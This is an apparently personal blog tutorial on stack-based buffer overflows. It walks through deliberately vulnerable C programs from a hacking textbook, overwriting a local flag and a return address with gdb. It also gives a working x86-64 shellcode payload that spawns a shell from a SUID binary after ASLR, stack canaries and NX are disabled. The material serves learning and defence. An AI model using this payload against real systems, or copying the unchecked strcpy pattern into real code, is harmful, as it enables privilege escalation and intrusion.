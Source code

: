 #+title: Stack-based buffer overflows
#+description: todo
#+publishdate: 2023-10-20
#+options: ^:nil


* What's a buffer overflow?

Buffer overflows are a type of vulnerability where the attacker gives more data to a buffer than it can handle. As a result, the program overwrites adjacent memory locations with the exceeding data. Usually, the program will crash. However, a skilled hacker can take control of the program as it crashes and achieve incredible things, like access to a shell. Nowadays, there are some countermeasures in place. They make it much harder but not impossible. Especially if using languages like C or C++, that lets developers manage the memory.

There are two types of buffer overflows: stack-based and heap-based. In this post, we will talk about the first type.

* What's the stack?

Before jumping right into stack-based buffer overflows, we need to understand what a "stack" is in this context and how it works.

The stack is a region of memory reserved for each thread to store data. Each time you call a function, a stack frame is created where the arguments, the local variables and the return address are stored in a Last Input First Output (LIFO) manner. Once it finishes, the program "removes" the stack frame from the stack and resumes the execution of the caller thanks to the return address. Now, on the top of the stack, we have the stack frame from the resumed function. The program is ready to go.

Stack example:

#+begin_src dot :exports none :results none :file ../../images/stack-based-buffer-overflow/stack-frame-graph.png :cmdline -Kdot -Tpng
  digraph {

  node [ shape = none fontname = Helvetica ]

  n1 [ label = <
  <table>
  <tr>
  <td>
  <table border="0" cellspacing="0">
  <tr><td border="1">Input parameters</td></tr>
  <tr><td border="1">Return address</td></tr>                         
  <tr><td border="1">Local variables</td></tr>
  </table>
  </td>
  <td >stack frame 1</td>
  </tr> 

  <tr>
  <td>
  <table border="0" cellspacing="0">
  <tr><td border="1">Input parameters</td></tr>
  <tr><td border="1">Return address</td></tr>                         
  <tr><td border="1">Local variables</td></tr>
  </table>
  </td>
  <td>stack frame 2</td>
  </tr> 
  </table>
  > ]
  }
#+end_src

[[../../images/stack-based-buffer-overflow/stack-frame-graph.png]]


Great! We understand the basis of how the stack works at a high level. However, we still need to know the low-level details of that process if we want to exploit it. So, what's actually happening? How does the computer know which instruction to execute? How does the computer know how to resume the execution of the caller function? How does it create and remove the stack frame? That's all due to registers. The CPU of a computer use different registers to store data, transfer data, store instructions, ... We are interested in the Extended Instruction Pointer (EIP), which stores the memory address of the next instruction to execute; the Extended Stack Pointer (ESP), which points to the top of the stack frame; and the Extended Base Pointer (EBP), which points to the bottom of the stack frame. Whenever we call a function, the EBP will store the actual ESP. The end of the caller function stack frame is the beginning of the called function stack frame. Pushing data to the stack will increase the ESP. The EIP will point to the next instruction to execute. Once we reach the return statement, the ESP will be equal to EBP (removing the stack frame) and the EIP will be equal to the return address. The process is much more complex than that. For instance, I'm not explaining how the EBP is restored. I encourage you to do some further research about the topic. I don't think we need more for that post.

We should have a clear idea of how stack frames work and some lower details. We are ready to exploit some programs. 

* Stack based buffer overflows

Relevant system information:

- Linux 5.15.0-86-generic x86_64
- Intel(R) Core(TM) i7-10510U CPU
- Little Endian
- 48 bits address size

All the vulnerable programs are from *Hacking: The Art of Exploitation, 2nd Edition*. They may contain modification to use in modern machines. You can get the original source code https://github.com/intere/hacking/blob/master/booksrc.

** Overwrite local variable in stack frame

Let's start with the ~auth_overflow.c~.

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  int check_authentication(char *password) {
    int auth_flag = 0;
    char password_buffer[16];

    strcpy(password_buffer, password);
	
    if(strcmp(password_buffer, "brillig") == 0)
      auth_flag = 1;
    if(strcmp(password_buffer, "outgrabe") == 0)
      auth_flag = 1;

    return auth_flag;
  }

  int main(int argc, char *argv[]) {
    if(argc < 2) {
      printf("Usage: %s <password>\n", argv[0]);
      exit(0);
    }
    if(check_authentication(argv[1])) {
      printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
      printf("      Access Granted.\n");
      printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
    } else {
      printf("\nAccess Denied.\n");
    }
  }
#+end_src

The program is simple. It receives a password. If it's equal to "brillig" or "outgrabe" we will see the message "Access Granted", otherwise, we will see "Access Denied". With a buffer overflow, we can get the "Access Granted" message even when the password is invalid.

The error is inside the ~check_authentication~ function, which copies the ~password~ data to the ~password_buffer~ without checking the length. Notice that the ~password_buffer~ can hold a maximum of 16 bytes. In other words, the program will reserve 16 bytes in the stack for that variable. Nevertheless, the data behind the ~password~ pointer can hold a larger array of characters. The idea here is to give the program a password longer than 16 bytes so that when the data is copied into the ~password_buffer~, the extra bytes overwrite the ~auth_flag~. That's the boolean that decides the message to be shown. If we can control it, we can control the printed message. Remember that the stack frame is a LIFO. Hence, the ~password_buffer~ will be on top of the ~auth_flag~.

Let's compile the program and execute it with a bigger password than expected.

#+begin_src bash
gcc auth_overflow.c -o auth_overflow
./auth_overflow "password"
#+end_src

I've tried with several lengths. With 25 characters, the program fails.

[[../../images/stack-based-buffer-overflow/auth-overflow-stack-smashing.png]]

There's something curious, though. The function variables only take 20 bytes, 16 for the ~password_buffer~ and 4 for the ~auth_flag~, but we need 25 bytes to make it fail. I did some research, and it seems like it could be related to some padding that the compiler or the system is adding between variables. In any case, the program is failing with "stack smashing". That tells us that the compiler detected the buffer overflow attack and stoped the execution. Current versions of GCC use "canaries" to detect buffer overflows. It adds some data in the stack frame at the beginning of the function and expects that it remains unchanged when exiting it. Let's disable that for our learning.

#+begin_src bash
gcc auth_overflow.c -o auth_overflow -fno-stack-protector
#+end_src

[[../../images/stack-based-buffer-overflow/auth-overflow-no-stack-protector.png]]

With canaries disabled, let's see how many bytes are between the ~password_buffer~ and the ~auth_flag~. That will tell us the password length needed to overwrite the ~auth_flag~. For that, we can use gdb. It's only a matter of placing a breakpoint inside the vulnerable function and checking the memory addresses.

#+begin_src bash
gcc auth_overflow.c -o auth_overflow -fno-stack-protector -g # -g option adds debug symbols
gdb ./auth_overflow
#+end_src

[[../../images/stack-based-buffer-overflow/auth-overflow-gdb-variables-distance.png]]

There are 28 bytes between the two variables. That means that we need a password with 29 characters. The first 28 to fill the space between the variables, and the last one to overwrite the ~auth_flag~. We need it to be different to 0. For example, "a" should overwrite the ~auth_flag~ value with its ASCII decimal value (97). We can see that in action by placing a couple of breakpoints. One before the ~strcpy~ and one after.

[[../../images/stack-based-buffer-overflow/auth-overflow-auth-flag-new-value.png]]

That's it! We got the "Access Granted" message.

[[../../images/stack-based-buffer-overflow/auth-overflow-access-granted.png]]

** Overwrite return address

The first example is limited, right? We can do something interesting only if the variable we want to overwrite is stored in the stack before the one we are using to exploit it. What could we do if the variable is not there or appears after? The idea in that situation is to overwrite the return address.

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  int check_authentication(char *password) {
    char password_buffer[16];

    strcpy(password_buffer, password);
	
    int auth_flag = 0;
    if(strcmp(password_buffer, "brillig") == 0)
      auth_flag = 1;
    if(strcmp(password_buffer, "outgrabe") == 0)
      auth_flag = 1;

    return auth_flag;
  }

  int main(int argc, char *argv[]) {
    if(argc < 2) {
      printf("Usage: %s <password>\n", argv[0]);
      exit(0);
    }
    if(check_authentication(argv[1])) {
      printf("\n-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
      printf("      Access Granted.\n");
      printf("-=-=-=-=-=-=-=-=-=-=-=-=-=-\n");
    } else {
      printf("\nAccess Denied.\n");
    }
  }
#+end_src

First, compile it without security protections and debug symbols. Here we added the ~no-pie~ option. PIE stands for Position Independent Executable. If enabled, the executable will be loaded in a different memory address every time.

#+begin_src bash
gcc auth_overflow2.c -o auth_overflow2 -fno-stack-protector -no-pie -g
#+end_src

Now, where is the return address? How can we overwrite it? As in the first example, gdb is our friend. We can put a breakpoint inside ~check_authentication~, run and execute ~info frame~. The ~rip~ register contains the return address.

[[../../images/stack-based-buffer-overflow/auth-overflow2-info-frame.png]]

At this point, it's a matter of trying several passwords until we find the number of bytes till the ~rip~ register. Same procedure as in the first example. Writing a password with 40 "a" and 3 "b" will overwrite the ~rip~ with the ASCII value of "bbb" (0x626262).

[[../../images/stack-based-buffer-overflow/auth-overflow2-overwrite-rip.png]]

That's cool, but we want to overwrite the ~rip~ to change the code flow and show us the "Access Granted" message. We can disassemble the main function to see where the ~print~ functions are and get the memory address for the first ~print~. The +86 memory address points to the conditional before the prints. We can take the next address. If PIE was enabled, this wouldn't be that easy. The address would change every time we run it.

[[../../images/stack-based-buffer-overflow/auth-overflow2-access-granted-address.png]]

Replacing "bbb" with "\x7f\x12\x40" gives us the "Access Granted" message. We add the memory address in reverse because my machine uses Little Endian.

[[../../images/stack-based-buffer-overflow/auth-overflow2-access-granted.png]]

** Get shell

The second example was a bit more interesting, but still limited. In this final example, we are going to see how to get access to a shell.

We have two small programs. The first program creates notes in "/var/notes". root must own the executable and have the SUID activated. That way, we can execute it with normal users as if it was root.

#+begin_src c
  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>
  #include <fcntl.h>
  #include <sys/stat.h>
  #include "hacking.h"

  void usage(char *prog_name, char *filename)
  {
    printf("Usage: %s <data to add to %s>\n", prog_name, filename);
    exit(0);
  }

  void fatal(char *);            // A function for fatal errors
  void *ec_malloc(unsigned int); // An error-checked malloc() wrapper

  int main(int argc, char *argv[])
  {
    int userid, fd; // File descriptor
    char *buffer, *datafile;

    buffer = (char *)ec_malloc(100);
    datafile = (char *)ec_malloc(20);
    strcpy(datafile, "/var/notes");

    if (argc < 2)                 // If there aren't command-line arguments,
      usage(argv[0], datafile); // display usage message and exit.

    strcpy(buffer, argv[1]); // Copy into buffer.

    printf("[DEBUG] buffer @ %p: \'%s\'\n", buffer, buffer);
    printf("[DEBUG] datafile @ %p: \'%s\'\n", datafile, datafile);

    // Opening the file
    fd = open(datafile, O_WRONLY | O_CREAT | O_APPEND, S_IRUSR | S_IWUSR);
    if (fd == -1)
      fatal("in main() while opening file");
    printf("[DEBUG] file descriptor is %d\n", fd);

    userid = getuid(); // Get the real user ID.

    // Writing data
    if (write(fd, &userid, 4) == -1) // Write user ID before note data.
      fatal("in main() while writing userid to file");
    write(fd, "\n", 1);                          // Terminate line.
    if (write(fd, buffer, strlen(buffer)) == -1) // Write note.
      fatal("in main() while writing buffer to file");

    write(fd, "\n", 1); // Terminate line.
    // Closing file
    if (close(fd) == -1)
      fatal("in main() while closing file");
    printf("Note has been saved.\n");
    free(buffer);
    free(datafile);
  }
#+end_src

#+begin_src bash
  gcc notetaker.c -o notetaker -g
  sudo chown root:root notetaker
  sudo chmod u+s notetaker
  ./notetaker "example message"
#+end_src

The second program, the vulnerable one, is used to search notes for the current user. Optionally, we can show only the messages that contain a specific string.

#+begin_src c
  #include <stdio.h>
  #include <string.h>
  #include <fcntl.h>
  #include <unistd.h>
  #include <sys/stat.h>
  #include "hacking.h"

  #define FILENAME "/var/notes"

  int print_notes(int, int, char *); // Note printing function.
  int find_user_note(int, int);      // Seek in file for a note for user.
  int search_note(char *, char *);   // Search for keyword function.
  void fatal(char *);                // Fatal error handler

  int main(int argc, char *argv[])
  {
    int userid, printing = 1, fd; // File descriptor
    char searchstring[100];
    if (argc > 1)                      // If there is an arg,
      strcpy(searchstring, argv[1]); // that is the search string;
    else                               // otherwise,
      searchstring[0] = 0;           // search string is empty.
    userid = getuid();
    fd = open(FILENAME, O_RDONLY); // Open the file for read-only access.
    if (fd == -1)
      fatal("in main() while opening file for reading");
    printf("%i", printing);
    while (printing)
      printing = print_notes(fd, userid, searchstring);
    printf("-------[ end of note data ]-------\n");
    close(fd);
  }

  // A function to print the notes for a given uid that match
  // an optional search string;
  // returns 0 at end of file, 1 if there are still more notes.
  int print_notes(int fd, int uid, char *searchstring)
  {
    int note_length;
    char byte = 0, note_buffer[100];
    note_length = find_user_note(fd, uid);
    if (note_length == -1)                      // If end of file reached,
      return 0;                               // return 0.
    read(fd, note_buffer, note_length);         // Read note data.
    note_buffer[note_length] = 0;               // Terminate the string.
    if (search_note(note_buffer, searchstring)) // If searchstring found,
      printf(note_buffer);                    // print the note.
    return 1;
  }

  // A function to find the next note for a given userID;
  // returns -1 if the end of the file is reached;
  // otherwise, it returns the length of the found note.
  int find_user_note(int fd, int user_uid)
  {
    int note_uid = -1;
    unsigned char byte;
    int length;
    while (note_uid != user_uid)
      {                                                        // Loop until a note for user_uid is found.
        if (read(fd, &note_uid, 4) != 4) // Read the uid data.
          return -1;                                       // If 4 bytes aren't read, return end of file code.
        if (read(fd, &byte, 1) != 1)                         // Read the newline separator.
          return -1;
        byte = length = 0;
        while (byte != '\n')
          {                                // Figure out how many bytes to the end of line.
            if (read(fd, &byte, 1) != 1) // Read a single byte.
              return -1;               // If byte isn't read, return end of file code.
            length++;
          }
      }
    lseek(fd, length * -1, SEEK_CUR); // Rewind file reading by length bytes.
    printf("[DEBUG] found a %d byte note for user id %d\n", length, note_uid);
    return length;
  }

  // A function to search a note for a given keyword;
  // returns 1 if a match is found, 0 if there is no match.
  int search_note(char *note, char *keyword)
  {
    int i, keyword_length, match = 0;
    keyword_length = strlen(keyword);
    if (keyword_length == 0) // If there is no search string,
      return 1;            // always "match".
    for (i = 0; i < strlen(note); i++)
      {                                  // Iterate over bytes in note.
        if (note[i] == keyword[match]) // If byte matches keyword,
          match++;                   // get ready to check the next byte;
        else
          {                              // otherwise,
            if (note[i] == keyword[0]) // if that byte matches first keyword byte,
              match = 1;             // start the match count at 1.
            else
              match = 0; // Otherwise it is zero.
          }
        if (match == keyword_length) // If there is a full match,
          return 1;                // return matched.
      }
    return 0; // Return not matched.
  }
#+end_src

#+begin_src bash
  gcc notesearch.c -o notesearch -fno-stack-protector -no-pie -g
  sudo chown root:root notesearch
  sudo chmod u+s notesearch
  ./notesearch "example"
#+end_src

We need to disable the Adress Space Layout Randomization (ASLR) to avoid random memory addreses.

#+begin_src bash
  echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
#+end_src

You may be wondering if ASLR and PIE do the same. Both disable the randomization of memory addresses for executables. That's true. However, they randomize different things. ASLR is a kernel protection feature, and it has three levels in Linux:

0. Disable ASLR. This setting is applied if the kernel is booted with the norandmaps boot parameter (in Linux).
1. Randomize the positions of the stack, virtual dynamic shared object (VDSO) page, and shared memory regions. The base address of the data segment is located immediately after the end of the executable code segment.
2. Randomize the positions of the stack, VDSO page, shared memory regions, and the data segment. This is the default setting.

PIE is a binary protection feature that places the "code segment", the "global offset table" and their "procedure linkage table" at random locations.

The last security protection we need to [[https://superuser.com/a/1385242][disable is the NX bit]]. That will make the stack executable. In other words, we will be able to execute the shellcode.

Let's take a step back. Where is the vulnerability? The notetaker ~main~ function calls ~strcpy~. Again, there's no control over the length of the copied data. The high-level idea is the same as in the last exercise. We want to overwrite the return address to take control of the flow. The way to find it is the same. However, the payload is structured differently. We aren't going to send a bunch of "a" followed by a memory address in the executable. We want to build a payload that looks like: "NOP sled, shellcode, some more NOP operations, NOP sled address". Let me explain each part.

First, we have the "NOP sled". A NOP is a no-operation instruction that CPUs include for timing purposes, among other things. In our case, we use them to force the computer to slide into the shellcode we introduced in the stack. Theoretically, you could do it without the aid of a "NOP sled", but it becomes much harder. You will have problems with memory alignment and other low-level stuff that I lack knowledge of. Moreover, the compiler is picky and won't allow you to execute the shellcode from whatever memory address you want.

Then, we have the shellcode. A small piece of code built in assembler to execute some code. In that example, to give us access to a shell.

Following the shellcode, we find some more NOP operations. Sometimes, shellcodes need to write some bytes after themselves. The compiler can complain about that. These NOP operations will help us.

The last part is the return address. We will overwrite it with a memory address where the NOP sled is located.

That's it for the structure. Coming back to the exploit, on my first try I used a "NOP sled, shellcode, NOP sled address" structure. It didn't work for multiple reasons. NX bit wasn't disabled and ASLR wasn't disabled.

[[../../images/stack-based-buffer-overflow/notesearch-stack.png]]

After disabling them, the issue was creating the correct payload. Sometimes, the execution failed with a SEGFAULT and sometimes with a SIGILL. Trying a myriad of different payload structures and lengths for the NOP operations, I finally crafted a payload that worked using gdb.

[[../../images/stack-based-buffer-overflow/notesearch-gdb-exploit.png]]

This payload doesn't work outside gdb. The environment in which we execute the exploit can modify the position of the variables in the stack. For example, the environment variables used on gdb differ from the ones on the shell. To circumvent that issue, we can pass the environment variables to gdb.

#+begin_src bash
  env gdb notesearch
#+end_src

The path from where you execute the exploit is also relevant. ~./notesearch $(perl -e 'print "\x90" x 57, "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05", "\x90" x 40, "\x90\xe3\xff\xff\xff\x7f\x00\x00"')~ didn't work for me, while ~~/Desktop/overflow/notesearch $(perl -e 'print "\x90" x 57, "\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05", "\x90" x 40, "\x90\xe3\xff\xff\xff\x7f\x00\x00"')~ worked.

[[../../images/stack-based-buffer-overflow/notesearch-final-exploit.png]]

That's it!!! We got our shell. In theory, we should get root access due to the SUID permissions. However, some shells now throw SUID permissions when spawning new shells from a process with SUID to avoid this kind of attacks. More stuff to learn in the future!


* How can we prevent buffer overflows?

DON'T COPY DATA WITHOUT CHECKING THE LENGTH!

Most people forget to do that, so luckily, there are some security features that mitigate the attack. We have seen a some of them during the exercise: canaries, PIE, ASLR or NX bit.

* Conclusion

Now we know what a stack based buffer overflow is, why it works, how to exploit it and some protections mechanisms. We don't have an execuse to avoid them.
